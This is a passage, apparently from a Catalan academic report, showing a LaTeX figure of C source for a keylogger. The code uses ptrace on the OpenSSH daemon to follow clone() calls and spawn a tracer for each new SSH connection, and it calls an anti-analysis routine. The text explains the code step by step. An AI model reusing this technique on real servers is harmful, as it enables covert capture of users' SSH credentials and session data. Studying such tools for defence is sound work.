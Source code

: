 \begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
ptrace(PTRACE_SYSCALL, pid, @PYaX[NULL], @PYaX[NULL]);
exitPid @PYbe[=] wait(@PYbe[&]status);
antidebug_obfuscate_analysis(@PYag[3]);
@PYay[if] (WIFSTOPPED(status)) {
    @PYay[if] (WSTOPSIG(status) @PYbe[=]@PYbe[=] SIGCHLD) {
        ptrace(PTRACE_CONT, pid, @PYag[0], SIGCHLD);
        kill(pid, SIGSTOP);
    } @PYay[else] 
        @PYay[if] (WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGTRAP @PYbe[&]@PYbe[&]  WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGSTOP) {
        ptrace(PTRACE_CONT, pid, @PYag[0], WSTOPSIG(status));
        debug(@PYaB["]@PYaB[Acabant procés pare %d (%d)]@PYao[\n]@PYaB["], pid, WSTOPSIG(status));
        @PYay[break];
    }
    @PYay[else] {
        orig_eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] ORIG_EAX, @PYaX[NULL]);
        antidebug_obfuscate_analysis(@PYag[4]);
        @PYay[switch] (orig_eax) {
            @PYay[case] __NR_clone:
                @PYay[if](insyscall @PYbe[=]@PYbe[=] @PYag[0]) {
                    debug(@PYaB["]@PYaB[fork]@PYao[\n]@PYaB["]);
                    insyscall @PYbe[=] @PYag[1];
                } @PYay[else] {
                    insyscall @PYbe[=] @PYag[0];
                    eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] EAX, @PYaX[NULL]);
                    @PYay[if](@PYbe[!]fork()) {
                        lookForReads(eax);
                    }
\end{Verbatim}
    \caption{keylogger.c::main()}
    \label{fig:keylogger_main}
\end{figure}

En la figura \ref{fig:keylogger_main} podem veure com un cop ja estem attachats al procés principal del 
Openssh, anem seguin les diferents crides a sistema per trobar en aquest cas un clone(). En el moment
en que es retorni la crida clone(), capturem el valor del registre eax que correspon al pid del procés
fill o 0 en cas de ser el propi fill. Quan en el pare obtenim el pid del fill acabat de crear, saltem a la 
funció lookForReads() tot passant-li el nou pid a seguir. En aquest funció, es crearà un nou procés del 
nostre keylogger, que segurà exclusivament aquest nou procés que acaba de crear l'Openssh. En aquesta nova
connexió, ja serà on buscarem les dades que ens interessen. \\

Podem veure en la mateixa figura, que segons el signal que faci aturar el nostre procés, ens interessarà
que aquest arribi al procés que estem debugant, o fins i tot, farà que deixem de debugar-lo ja que entendrem
que es vol aturar el servei. \\

